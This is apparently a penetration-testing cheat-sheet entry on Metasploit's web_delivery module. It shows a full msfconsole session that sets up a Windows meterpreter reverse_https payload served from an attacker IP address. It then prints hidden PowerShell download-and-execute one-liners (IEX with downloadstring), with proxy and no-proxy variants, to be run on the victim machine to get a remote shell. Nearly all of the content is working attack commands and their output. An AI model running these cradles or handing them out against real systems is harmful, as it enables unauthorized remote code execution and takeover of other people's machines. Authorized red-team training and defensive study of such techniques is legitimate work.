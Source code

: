 ## Metasploit Web Delivery

[Metasploit Web Delivery](https://www.offensive-security.com/metasploit-unleashed/web-delivery/)

Metasploit’s Web Delivery Script is a versatile module that creates a server on the attacking machine which hosts a payload. When the victim connects to the attacking server, the payload will be executed on the victim machine. This module has a powershell method which generates a string which is needed to be executed on remote windows machine.

```
msf > use exploit/multi/script/web_delivery
msf exploit(web_delivery) > show targets

Exploit targets:

   Id  Name
   --  ----
   0   Python
   1   PHP
   2   PSH


msf exploit(web_delivery) > set target 2
target => 2
msf exploit(web_delivery) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf exploit(web_delivery) > set lhost 14.97.131.138
lhost => 14.97.131.138
msf exploit(web_delivery) > run
[*] Exploit running as background job.

[*] Started HTTPS reverse handler on https://14.97.131.138:8443
msf exploit(web_delivery) > [*] Using URL: http://0.0.0.0:8080/uMOKs6wtlYL
[*] Local IP: http://14.97.131.138:8080/uMOKs6wtlYL
[*] Server started.
[*] Run the following command on the target machine:
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

 When the following command \(when there is no proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

 or \(when there is proxy\)

```
powershell.exe -nop -w hidden -c $X=new-object net.webclient;$X.proxy=[Net.WebRequest]::GetSystemWebProxy();$X.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $X.downloadstring('http://14.97.131.138:8080/uMOKs6wtlYL');
```

 is executed on the windows remote machine, we should get a meterpreter.

```
Delivery web_delivery payload
meterprerter>
```





